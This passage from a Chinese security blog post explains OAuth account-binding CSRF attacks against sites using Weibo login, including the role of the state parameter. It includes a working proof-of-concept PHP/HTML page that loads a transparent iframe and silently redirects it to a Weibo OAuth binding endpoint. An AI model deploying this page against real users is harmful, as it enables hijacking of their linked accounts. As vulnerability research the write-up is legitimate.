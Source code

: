 ```php
?>

<html>
<head>
<style type="text/css"> 
.testframe {
	height: 100%;
} 
iframe {
	height: 100%;
	width: 100%;
	border: 0;
	margin: 0;
	padding: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
</style>
</head>
<body>
<div class="testframe">
	<iframe id="test0" src="<?php echo $url;?>"></iframe>
</div>
<script>
function loadsrc(){
    document.getElementById("test0").src="https://gh0st.cn/oauth/weibo/redirect";
}
setTimeout("loadsrc()",2000);
</script>
</body>
</html>
```

#### 场景2.攻击步骤：

有些网站可能是post请求限制了referer或者根本没有跳转的请求而是直接进入了微博的绑定界面，因为state参数的原因导致根本无法以这个绑定页面为链接的形式去做攻击~

可能有很多朋友就有疑问了，为什么我老是提到state参数？这个参数是干什么用的呢？这里参考下微博的OAuth2.0接口的开发文档：

http://open.weibo.com/wiki/Oauth2/authorize

![0x09.png](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-04-28/0x09.png)

是防止CSRF的，也就是说在这里如果绑定的链接是如下这样子的：

![0x10.png](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-04-28/0x10.png)

